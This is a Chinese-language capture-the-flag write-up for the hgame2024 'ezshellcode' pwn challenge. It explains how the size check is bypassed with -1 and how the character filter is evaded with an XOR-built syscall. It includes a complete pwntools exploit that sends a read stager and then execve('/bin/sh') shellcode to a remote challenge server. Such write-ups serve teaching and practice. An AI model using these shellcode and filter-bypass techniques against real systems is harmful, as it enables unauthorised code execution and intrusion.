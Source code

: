 ```yaml
---
title: hgame2024 week1 - ezshellcode
date: 2024/2/5 19:13:00
tags:
    - shellcode
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

看似被size限制了大小，实际上在read的时候size是uint64_t，因此输入-1可以绕过size的问题；
但是题目还限制了输入的字符，考虑用异或和pop、push来控制寄存器和syscall(0x0f05)

先观察一下寄存器：
![regs](/assets/hgame2024/hgame2024/registers.png)

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./shellcode')
        if lo & 2:
            gdb.attach(sh, gdbscript='b *$rebase(0x1456)')
    else:
        sh = remote('47.100.139.115', 31258)

    sh.recvuntil(b':')
    sh.sendline(b'-1') # size is ulong
    sh.recvuntil(b':')

    # payload 1, make read syscall to input unlimited shellcode
    code = '''
    xor byte ptr [rax + 0x36], bl
    xor bl, byte ptr [rax + 0x36]
    xor bl, byte ptr [rax + 0x33]
    xor byte ptr [rax + 0x31], bl
    xor byte ptr [rax + 0x32], bl
    push rdi
    pop rax
    push rsi
    pop rdx
    '''
    shc = asm(code)
    shc += b'PX'*15 + b'KAD'
    sh.send(shc)

    # payload 2, open shell
    code = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
    '''
    shc = asm(code)
    shc = b'0'*0x33 + shc # align with the next byte to be executed
    sh.send(shc)

    sh.interactive()
```

## shellcode详解

接下来是对第一段shellcode的解释

```as
xor byte ptr [rax + 0x36], bl ; 0X6
xor bl, byte ptr [rax + 0x36] ; 2X6 zero out bl
xor bl, byte ptr [rax + 0x33] ; 2X3 clone intermediate value
xor byte ptr [rax + 0x31], bl ; 0X1 make 0x0f
xor byte ptr [rax + 0x32], bl ; 0X2 make 0x05
push rdi ; W
pop rax  ; X zero out rax
push rsi ; V
pop rdx  ; Z sufficient bytes to read

push rax ; P
pop rax  ; X *15 fill up shellcode until the size reached 0x30

syscall  ; KA; will be xored to 0x0f05
?        ; D ; the intermediate value to make syscall

?        ; a byte at +0x36, will be used to store bl
```
